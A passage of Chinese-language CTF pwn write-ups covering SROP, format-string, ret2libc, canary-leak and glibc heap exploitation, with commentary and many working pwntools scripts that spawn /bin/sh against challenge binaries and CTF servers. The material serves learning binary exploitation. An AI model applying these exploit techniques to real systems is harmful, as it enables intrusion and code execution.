   io.send(payload)

   frame=SigreturnFrame()
   frame.rax = constants.SYS_execve
   frame.rdi = buf+0x200
   frame.rsi = 0
   frame.rdx = 0
   frame.rip = syscall

   payload = b'a'*8 + p64(pop_rax_syscall) + p64(15) + bytes(frame)
   payload = payload.ljust(0x200, b'\0') + b'/bin/sh\x00'
   io.send(payload)
```

## 360chunqiu2017_smallest——leak stack+srop

我们不仅可以通过sys_read控制返回值，进而控制rdi。也可以通过sys_write泄露rsp/rbp，从而泄露栈地址。

由 https://hackeradam.com/x86-64-linux-syscalls/ 可以得出，write对应的调用号为1，而stdout的文件描述符也是1，因此可行。

泄露栈地址后有一下几种做法（后两者来自于 https://bbs.pediy.com/thread-258047-1.htm ）：

- （使用一次srop）由于栈地址已经确定，但由于ASLR也会随机倒二倒三位，所以在栈上布满`/bin/sh\0`后srop，随便写一个rdi地址让其碰撞。成功概率大概为3/16.
- （使用两次srop）泄露栈地址后，在一个指定位置srop，写入`/bin/sh\0`，然后通过栈迁移，srop执行`execve('bin/sh', 0, 0)`.
- （使用两次srop）泄露栈地址后，在一个指定位置srop，写入shellcode，然后srop使用mprotect给栈的执行权限。

以下使用第一种做法

```python
def exploit():
   io.send(p64(0x4000b0)*3)
   io.send(p8(0xb8)) # rax=1, sys_write
   io.recv(8) 
   stack = u64(io.recv(8)) & 0xfffffffff000
   log.info('stack: ' + hex(stack))
   
   frame=SigreturnFrame()
   frame.rax = constants.SYS_execve
   frame.rdi = stack + 0x520 # random
   frame.rsi = 0
   frame.rdx = 0
   frame.rip = 0x4000be

   io.send(p64(0x4000b0)+p64(0x4000be)+bytes(frame)+b'/bin/sh\0'*95)
   io.send(p64(0x4000be)+bytes(frame)[:7]) # rax=15, sys_rt_sigreturn
```


# fmtstr

## xctf-pwn-(beginner)-4: string

格式化字符串。~~逐渐变得不是那么面向萌新了~~

对于格式不规范的printf函数，有以下利用方式：

>技能一：使用printf函数查看堆栈中的数据：
>
>`1234-%p-%p-%p-%p-%p-...-%p`
>
>如果输出以上这一段，所有的`%p`都会替换成一个地址。
>
>~~然而我并不知道这些地址跟IDA调试时看到的地址有什么关系~~
>
>技能二：修改对应位置的数据：
>
>例如`%85d%7$n`就是把第7个`%p`对应的地址的**值**修改为85

问题的核心就是如何能够修改secret数组的值。把secret[0]改为85或者把secret[1]改为68。

明显的利用点是那个问address和wish的那两个scanf，还有那个非规范的printf。

如果按照之前的栈溢出的思路肯定不行，因为有canary。

题解的思路是将secret[0]的地址写到第一个scanf里，然后`printf('1234-%p-%p-%p-%p-%p-...-%p')`，发现之前写的地址在第7个`%p`里。于是重新运行，便有了`printf('%85d%7$n')`.

然后是输入spell的部分，`mmap`是一个内存映射函数，内容可执行，直接上一句话shell。

```python
io.sendline(asm(shellcraft.sh()))
```

### 另解

通过ida调试后发现main函数中的secret地址，与非规范的printf离得并不远，不超过100h。

如果你有足够耐心，会发现输入25个%p后对应的恰好就是secret的地址，而且这个值跟之前的7一样，不会变动。~~所以之前那个输入地址的scanf是完全不需要的。~~

exp:

```python
# ctf.show + buuoj - libc6_2.27
from pwn import*
from LibcSearcher import*
context.arch = 'amd64'
context.log_level = 'debug'

#io = process('./3')
#io = remote('111.200.241.244',64533)

io.recv()
io.sendline('1')
io.recv()
io.sendline('east')
io.recv()
io.sendline('1')
io.recv()
#asking address
io.sendline('1')
io.recvline()
io.sendline('%85d%25$n')
io.recv()
io.sendline(asm(shellcraft.sh()))

io.interactive()
```

## 第五空间决赛pwn5——fmtstr

pwntools工具：fmtstr用于格式化字符串漏洞。

`fmtstr_payload(offset,{address1:value1})`

如何计算偏移，例如：

```c
your name:AAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p 
Hello,AAAA-0xffffd0d8-0x63-(nil)-0xf7ffdb30-0x3-0xf7fc3420-0x1-(nil)-0x1-0x41414141-0x2d70252d-0x252d7025-0x70252d70-0x2d70252d-0x252d7025
// so the offset is 10
```

使用工具的exp（tested）:

```python
from pwn import *
#io = process('./pwn')
io = remote('node4.buuoj.cn',27411)
context.log_level = 'debug'
#gdb.attach()

rand_addr = 0x804c044
payload = fmtstr_payload(10, {rand_addr:123456})
io.recv()
io.sendline(payload)
io.recv()
io.sendline('123456')
io.interactive()
```

不使用工具的exp~~（然而我并不理解其中的含义）~~:

### updated on 2,25

`$n`代表已经先前成功输出的字节数，在这儿是四个int，也就是`0x10`.

而之前我们算出到输入的偏移是10，因此就从%10开始，把`0x804c044`~`0x804c047`的地址全部复制为`0x10`.

因此我们最后输入`10101010`即可满足条件。

```python
from pwn import*

io=remote('node4.buuoj.cn',27411)

payload=p32(0x804c044)+p32(0x804c045)+p32(0x804c046)+p32(0x804c047)
payload+=b'%10$n%11$n%12$n%13$n'

io.sendline(payload)
io.sendline(str(0x10101010))
io.interactive()
```

## ctfshow-pwn-10: dota——int overflow+fmtstr+ret2libc

前两个问题很简单，`-2147483648`相反数为本身这个是我才从csapp学到的。

然后是格式化字符串，`fmtstr_payload`报错，说只能在32bit范围内运行，没办法只能手动构造。

经过手动输出栈地址可知偏移为8.

当时我没经验，一直把想修改数据的地址放在`%25d%9$n`或者`%25c%9$n`（为什么这两个都可以？）的前面。最后看了别人的wp才知道只能放在后面，跟printf函数一样。

然后是64位的ret2libc3，然而我并不知道别人的wp是怎么找到`pop_rdi`的地址的。

完整脚本：

```python
from pwn import *
from LibcSearcher import *
io = process('./dota.dota')
#io = remote('pwn.challenge.ctf.show', 28085)
context.log_level = 'debug'
elf=ELF('./dota.dota')
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main=elf.symbols['main']

io.sendline('dota')
io.sendline('-2147483648')
io.recvuntil('小提问：dota1中英雄最高等级为多少？')
io.recv(3)
addr_str = io.recv(14)
addr_str = addr_str[:-1]
rand_addr = int(addr_str,16)

payload = b'%25c%9$n' + p64(rand_addr) # alternative '%25d%9$n'

io.sendline(payload)

pop_rdi = 0x4009b3 #???????
pop_ret = 0x40053e

payload1=b'a'*136+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)

io.recvuntil('\x0a')
io.sendline(payload1)

str_first = io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')
puts_add=u64(str_first)
print(hex(puts_add))

libc=LibcSearcher('puts',puts_add)

libcbase=puts_add-libc.dump('puts')
sys_add=libcbase+libc.dump('system')
bin_sh=libcbase+libc.dump('str_bin_sh')

payload2=b'a'*136+p64(pop_ret)+p64(pop_rdi)+p64(bin_sh)+p64(sys_add)
io.sendline(payload2)
io.interactive()

```

## fmtstr+ret2libc 

给出了源码：

```c
#include<stdio.h>

void main() {
	char str[1024];
	while(1) {
		memset(str, '\0', 1024);
		read(0, str, 1024);
		printf(str);
		fflush(stdout);
    }
}
//gcc -m32 -fno-stack-protector 9.2_fmtdemo4.c -o fmtdemo -g
```

shellcode:

```python
from pwn import *
io = process('./fmtdemo')
#io = remote('node4.buuoj.cn',27411)
context.log_level = 'debug'
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
elf = ELF('fmtdemo')
#gdb.attach()

printf_got = elf.got['printf'] # 0x80fc010
libc_printf = libc.symbols['printf']
libc_system = libc.symbols['system']

io.sendline(p32(printf_got) + b'%4$s') # *plt = got， *got = real_addr
printf_addr = u32(io.recv()[4:8])
libc_base = printf_addr - printf_got
log.success("libc_base:"+hex(libc_base))

print(hex(printf_addr))
payload = fmtstr_payload(4, {printf_got:printf_addr-libc_printf+libc_system})

io.sendline(payload)

io.interactive()

```

## bjdctf_2020_babyrop2——ret2libc+fmtstr+canary

算是栈溢出系列的一个小综合吧，利用格式化字符串泄露canary值，然后进行常规rop和64位的ret2libc，总体来说难度不大。（主要是想要贴一下自己现在的代码框架，个人感觉还不错）

```python
from pwn import *
import sys

def exploit():
   puts_plt = elf.plt['puts']
   puts_got = elf.got['puts']
   vuln = elf.sym['vuln']
   pop_rdi = 0x400993
   ret = 0x4005f9

   io.recvuntil('to help u!\n')
   io.sendline('%7$p')
   canary = int(io.recv(18),16)
   log.success('canary-->'+hex(canary))

   io.recvuntil('u story!\n')
   payload1 = b'a'*24 + p64(canary) + p64(0)
   payload1 += p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(vuln)
   io.sendline(payload1)
   libc_base = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\0')) - libc.sym['puts']
   log.success('libc_base-->'+hex(libc_base))

   sys = libc_base + libc.sym['system']
   bin_sh = libc_base + next(libc.search(b'/bin/sh'))

   payload2 = b'a'*24 + p64(canary) + p64(0)
   payload2 += p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(sys)
   io.sendline(payload2) 


if __name__ == "__main__":
   io = process(sys.argv[1])
   elf = ELF(sys.argv[1])

   if sys.argv.__len__() == 2:
      libc = ELF('/home/junyu33/Desktop/libc/libc.so.6')
   elif sys.argv[2] == 'debug':
      gdb.attach(io, 'b *0x4008d9')
   elif sys.argv[2] == 'remote':
      libc = ELF('/home/junyu33/Desktop/libc/libc-2.23-x64.so')
      io = remote('node4.buuoj.cn', 27078)

   context(arch='amd64', os='linux', log_level='debug')

   #pause()
   exploit()

   io.interactive()
```

## axb_2019_fmt32

栈未对齐的格式化字符串+ret2libc，加上一个字符偏移为8.

```python
def exploit():
   io.recvuntil('tell me:')
   payload1 = b'a' + p32(elf.got['puts']) + b'b' + b'%8$s' # 'a' to align the stack, 'b' to identify the address of 'puts'
   io.sendline(payload1)
   io.recvuntil('b')
   puts_addr = u32(io.recv(4))

   libc_base = puts_addr - libc.sym['puts']
   log.success('libc_base-->'+hex(libc_base))
   libc_sys = libc_base + libc.sym['system']

   payload2 = b'a'+fmtstr_payload(8, {elf.got['printf']:libc_sys}, numbwritten=10) # len('repeater:a') = 10
   io.sendafter('tell me:', payload2)
   payload3 = b';/bin/sh\0' # finish the last command and getshell
   io.sendline(payload3)
```


## buu-n1book: fsb2——fmtstr on heap

堆上的格式化字符串，学习链接：https://www.anquanke.com/post/id/184717

这里的任意地址写的脚本适配了64位的情况。

通常在64位中，`elf_base`以0x55开头，而`libc_base`以0x7f开头，最后12位均为0.

这个脚本不能每一次都触发成功，不知道是什么原因。

```python
def write_address(off0,off1,target_addr):
   p.sendline("%{}$p".format(off1))
   p.recvuntil("0x")
   addr1 = int(p.recv(12),16)&0xff
   p.recv()
   for i in range(6):
      p.sendline("%{}c%{}$hhn".format(addr1+i,off0))
      p.recv()
      p.sendline("%{}c%{}$hhn".format((target_addr&0xff)+256,off1))
      p.recv()        
      target_addr=target_addr>>8
   p.sendline("%{}c%{}$hhn".format(addr1,off0))
   p.recv()

def exploit():
   p.sendline('%10$p%16$p%20$p%21$p')
   p.recvuntil('hello')
   addr1 = int(p.recv(14), 16) # 10
   addr2 = int(p.recv(14), 16) # 16
   addr3 = int(p.recv(14), 16) # 20
   addr4 = int(p.recv(14), 16) # 21
   # 10->16->20
   elf_base = addr3 - elf.sym['__libc_csu_init']
   libc_base = addr4 - libc.sym['__libc_start_main'] - 231 # debug
   elf_free = elf_base + elf.got['free']
   libc_sys = libc_base + libc.sym['system'] 
   
   write_address(10, 16, elf_free)
   write_address(16, 20, libc_sys)
   
   p.sendline(b'/bin/sh\0')
```

> update on 2022/10/2:
>
> 原博客上的代码有一些瑕疵，第9行应该修改为`p.sendline("%{}c%{}$hhn".format((target_addr&0xff)+256,off1))`，否则不能将一个字节修改为`00`.（此处已修改）

## axb_2019_fmt64

python3的类型转换有点让人头疼......

```python
def exploit():
   io.recvuntil('tell me:')
   payload1 =  b'%9$sAAAA' + p64(elf.got['puts'])
   io.sendline(payload1)

   puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
   libc_base = puts_addr - libc.sym['puts']
   log.success('libc_base-->'+hex(libc_base))
   libc_sys = libc_base + libc.sym['system']

   sys_high = (libc_sys >> 16) & 0xff
   sys_low = libc_sys & 0xffff
   
   # previous output has 9 bytes 
   len1 = bytes(str(sys_high - 9), encoding = 'utf-8')
   len2 = bytes(str(sys_low - sys_high), encoding = 'utf-8')
   payload2 = b"%" + len1 + b"c%12$hhn" # arugment 10, the higher 2 bytes
   payload2 += b"%" + len2 + b"c%13$hn" # argument 11, the last 4 bytes
   payload2 = payload2.ljust(32,b"A") + p64(elf.got['strlen'] + 2) + p64(elf.got['strlen'])

   io.sendafter('tell me:', payload2)
   payload3 = b';/bin/sh\0'
   io.sendafter('tell me:', payload3)
```

## ciscn_2019_sw_1——fini.array

> `main`函数只有一次格式化字符串的机会，并且杜绝了栈溢出。

- 程序在加载的时候，会依次调用`init.array`数组中的每一个函数指针，在结束的时候，依次调用`fini.array`中的每一个函数指针。

- 在`NO RELRO`时，`fini.array`是可写的。因此可以通过修改`fini.array`的值达到重新执行main函数的目的。

```python
def exploit():
   printf_got = 0x804989c
   system_plt = 0x80483d0
   fini_array = 0x804979c
   main = 0x8048534

   header = p32(printf_got+2) + p32(fini_array+2) + p32(printf_got) + p32(fini_array) # len=0x10
   
   payload = '%' + str(0x804-0x10) + 'c%4$hn'
   payload += '%5$hn'
   payload += '%' + str(0x83d0-0x804) + 'c%6$hn'
   payload += '%' + str(0x8534-0x83d0) + 'c%7$hn'

   payload = header + payload.encode('utf-8')

   io.sendline(payload)
   io.sendline('/bin/sh\0')
```

## pwnable_fsb(buu enhanced)

原题pwnable是32位没有开pie，而buu上的版本是64位开了pie，导致难度有所增加。

写1位用`$hhn`，写2位用`$hn` ，写4位用`$n`，写8位用`$ln`.

首先第一次格式化字符串记录`elf_base`，`stack_base`和`[rbp]`.

然后观察栈，发现不存在连续三个链都是栈地址的情况。



观察`rbp`指向的地址（由于程序随机抬栈，所以需要一次格式化字符串记录`[rbp]`，算出距离`rsp`的偏移）：



可以发现`[rbp]+0x18`的位置满足三条链都在栈上的要求，由于`**([rbp]+0x18)`与`rbp`差距不大，可以一次性改写。结果如下：



然后在`rbp`处将`__libc_csu_init`后16位改为`target_addr`的后16位，在`[rbp]+0x18`处将`**([rbp]+0x18)`改为`**([rbp]+0x18)+2`，以准备改`__libc_csu_init`的中间8位。

> 其实直接把`**([rbp]+0x18)`改为`**([rbp]+0x18)+2`即可，第一步其实没有任何作用。

第三次格式化字符串时算好`*([rbp]+0x18)`的偏移，将`__libc_csu_init`的中间8位改为`target_addr`的中间8位，此时`__libc_csu_init`就变成了`key`.



最后我尝试泄露`key`的值并输入，但是程序似乎把`strtoull`的结果转成了`int`，不可能与`key`相等。于是我在`key`处以`$ln`的方式写入0字节，然而出于未知的原因key始终是1.

```python
from pwn import *
elf_path = './pwn'
libc_path = '/home/junyu33/glibc-all-in-one/libs/2.23-0ubuntu11_amd64/libc-2.23.so'

def exploit():
   key = 0x202040
   payload = '%14$p%12$p%18$p'
   io.sendline(payload)
   io.recvuntil('0x')
   elf_base = int(io.recv(12), 16) - 0xcb8
   io.recvuntil('0x')
   stack_base = int(io.recv(12), 16)
   io.recvuntil('0x')
   rbp_base = int(io.recv(12), 16)
   log.success('elf_base: ' + hex(elf_base))
   log.success('stack_base: ' + hex(stack_base))
   log.success('rbp_base: ' + hex(rbp_base))

   off0 = ((rbp_base + 0x18 - stack_base) >> 3) + 6
   off1 = off0 + 26
   target_addr = elf_base + key

   payload = "%{}c%{}$hn".format(rbp_base&0xffff, off0)
   payload += "%{}c%{}$hn".format((target_addr-rbp_base)&0xffff, 18)
   payload += "%{}c%{}$hn".format((rbp_base+2-target_addr)&0xffff, off0)
   io.sendline(payload)

   payload = "%{}c%{}$hhn".format((target_addr>>16)&0xff, off1)
   payload = payload.ljust(100, '\0')
   io.send(payload)

   io.recvuntil('Give me some format strings(4)\n')
   payload = "%{}c%{}$ln".format(0, off0-3)
   payload = payload.ljust(100, '\0')
   io.send(payload)
   io.send('1')


if __name__ == '__main__':
   context(arch='amd64', os='linux', log_level='debug')
   io = process(elf_path)
   elf = ELF(elf_path)
   libc = ELF(libc_path)

   if(sys.argv.__len__() > 1):
      if sys.argv[1] == 'debug':
         gdb.attach(io)
      elif sys.argv[1] == 'remote':
         io = remote('node4.buuoj.cn', 25094)
      elif sys.argv[1] == 'ssh':
         shell = ssh('fsb', 'node4.buuoj.cn', 25540, 'guest')
         io = shell.process('./fsb')

   exploit()
   io.interactive()
   io.close()
```

## wustctf2020_babyfmt——partial_stderr

这题思路比较清奇，虽然有[Loτυs](https://blog.csdn.net/Invin_cible/article/details/124003843)改`fmt_attack`计数器的非预期。

格式化字符串一次，允许任意地址泄露一字节一次，最开始还可以`scanf("%ld")`输入一次时间。

当你输入的不是整数时scanf拒绝输入，并返回了三个栈地址，其中一个与elf基址有关。

由于libc的后三位固定，因此只需要泄露一次`stderr`的倒数第二位。

最后格式化字符串把`stdout`的倒数第二位，改成`stderr`的倒数第二位即可，同时把secret的低位改成`\0`

`fmtstr_payload`还是太长了（64>40)，干脆手动。

```python
def exploit():
   io.sendline('1.5')
   io.recvuntil('1:')
   elf_base = int(io.recvuntil(':')[:-1]) - 0xbd5
   stdout = elf_base + 0x202020
   stderr = elf_base + 0x202040
   secret = elf_base + 0x202060

   io.recv()
   leak(p64(stderr+1))
   stderr_1 = u8(io.recvuntil(b'1.')[-3:-2]) * 0x100 + 0x40
   log.info('stderr_1: ' + hex(stderr_1))

   # offset = 8
   payload = "%11$hn%" + str(stderr_1) + 'c%12$hn'
   payload = payload.encode('utf-8')
   payload = payload.ljust(0x18, b'\0') + p64(secret) + p64(stdout)
   fmt(payload)

   getflag('\0'*64)
```


# heap

## libc 2.23

### libc 2.23 uaf




one_gadget使用：



```python
def exploit():
   add(2, 0x100, '2')
   add(3, 0x10, 'protected')
   free(2)
   show(2)

   addr = u64(p.recv(6).ljust(8, b'\0'))
   libc_base = addr - libc.sym['__malloc_hook'] - 112
   malloc_hook = libc_base + libc.sym['__malloc_hook'] 
   one_gadget = libc_base + 0x4526a

   add(0, 0x60, '0')
   free(0)
   edit(0, p64(malloc_hook - 0x23))

   add(1, 0x60, '1')
   add(2, 0x60, b'2'*0x13 + p64(one_gadget))
   add(4, 0x60, '4')
```


### babyheap_0ctf_2017——fastbin attack

> 在`ubuntu18/libc2.26`及以上版本本地无法打通，无法gdb调试，堆栈图就不贴了。
>
> 原因：`libc2.26`引入了`tcache`机制。
>
> 解决方案：使用patchelf或者`io = process([ld_path, elf_path], env={'LD_PRELOAD':libc_path})`

`fastbin attack `

`vuln: fill in arbitrary size` 

`type: double free`

```python
def exploit():
    alloc(0x18) #0
    alloc(0x68) #1
    alloc(0x68) #2
    alloc(0x18) #3
    fill(0,0x19,'a'*0x18+'\xe1')
    free(1)
    alloc(0x68) #1
    dump(2)

    p.recvuntil('Content: \n')
    leak = u64(p.recvline()[:8])
    libc_base=leak-(0x7fc4a1902b78-0x7fc4a153e000) # gdb debug libc
    malloc_hook = libc_base + libc.symbols['__malloc_hook']
    onegadget=libc_base+0x4526a # one_gadget

    alloc(0x68) #4
    free(2)
    fill(4,0x8,p64(malloc_hook-0x23)) # to satisfy size's last 3 bits are all '1's, it's '\x7f' here.
    alloc(0x68) #2
    alloc(0x68) #5
    fill(5,0x1b,'a'*0x13+p64(onegadget))
    alloc(0x18)
    p.interactive()
```

### [ZJCTF 2019]EasyHeap——fastbin double free

相比0ctf2017的堆题简单一点，不需要泄露`__malloc_hook`函数。

```python
def exploit():
   Alloc(0x18, '0')
   Alloc(0x68, '1')
   Alloc(0x68, '2')
   Alloc(0x18, '3')
   Edit(0, 0x19, 'a'*0x18 + '\xe1')
   Free(1)

   magic = 0x6020ad
   Alloc(0x68, '1')
   Alloc(0x68, '4') # 2

   Free(2)
   Edit(4, 8, p64(magic))
   Alloc(0x68, '2')
   Alloc(0x68, '5')
   Edit(5, 8, '12345678')

   io.sendline('4869')
```

### babyfengshui_33c3_2016

`partial RELRO`，可以修改got表和plt表。

程序去除超时限制——用isnan函数替换alarm函数。

```bash
sed -i s/alarm/isnan/g ./ProgrammName
```

1. 通过将name块与description块分开绕过长度判定。
2. 溢出第0个块，在第1个块写入free.got，泄露libc版本。
3. 将free.got改为system.got.
4. 通过free写好`/bin/sh`的第二个块，拿到shell.

```python
def exploit():
   Add(0x80, 0x80, 'a')
   Add(0x80, 0x80, 'b')
   Add(0x8, 0x8, '/bin/sh\0')

   Del(0)
   Add(0x100, 0x19c, b'a'*0x198 + p32(elf.got['free']))
   Dis(1)
   io.recvuntil('description: ')
   free_addr = u32(io.recv(4))
    
   libc_base = free_addr - libc.sym['free']
   log.success('libc_base->'+hex(libc_base))
   sys = libc_base + libc.sym['system']
   Upd(1, 4, p32(sys))
    
   Del(2)
```

### hitcontraining_heapcreator——off by one+chunk overlapping

首先通过堆溢出将0xe5548（size处）的0x21改为0x41，实现off by one。

注意观察delete与重新add后的堆排布情况。

delete后，形成了位于0xe5540与0xe55060处的fastbin。



接着重新alloc，会在0xe55060分配一个0x20的chunk，和0xe55040处的0x40的chunk。

此时将0x20的chunk的堆指针指向free.got即可把free.got修改成libc.sys，之后再free带`/bin/sh`的块即可。



```python
def exploit():
   add(0x18, 'aaaaaa')
   add(0x18, 'bbbbbb')
   edit(0, b'/bin/sh\0'+b'a'*0x10+b'\x41')
   add(0x38, 'protected')
   delete(1)
   add(0x30, p64(0)*4 + p64(0x30) + p64(elf.got['free']))

   libc_base = u64(show(1).ljust(8, b'\x00')) - libc.sym['free']
   libc_sys = libc_base + libc.sym['system']

   edit(1, p64(libc_sys))
   delete(0)
```

### roarctf_2019_easy_pwn——off by one+realloc_hook

这里由于栈环境的原因，需要使用`realloc_hook+4`满足`one_gadget`的条件。

原理是通过调整push的个数使得`[rsp+0x70]`恰好对到全0的位置。

如下所示，gdb在calloc(realloc_hook+4)函数下断点，运行至此查看[rsp+0x70]附近的值：

```c
pwndbg> x/16gx $rsp+0x70
0x7fff9700beb8: 0x000055e7e5e011ec      0x0000000000000000
0x7fff9700bec8: 0x6acb57d5bd5773a9      0x000055e7e5e009a0
0x7fff9700bed8: 0x00007fff9700bf70      0x0000000000000000
0x7fff9700bee8: 0x0000000000000000      0x3efbb214e59773a9
0x7fff9700bef8: 0x3f549cd4b72773a9      0x0000000000000000
0x7fff9700bf08: 0x0000000000000000      0x0000000000000000
0x7fff9700bf18: 0x00007fff9700bf88      0x00007f2800bda168
0x7fff9700bf28: 0x00007f28009c380b      0x0000000000000000
```

而`__libc_realloc`的汇编如下，这里可能需要多试几次以找到正确的跳转地址。

```asm
pwndbg> disass __libc_realloc                                                          
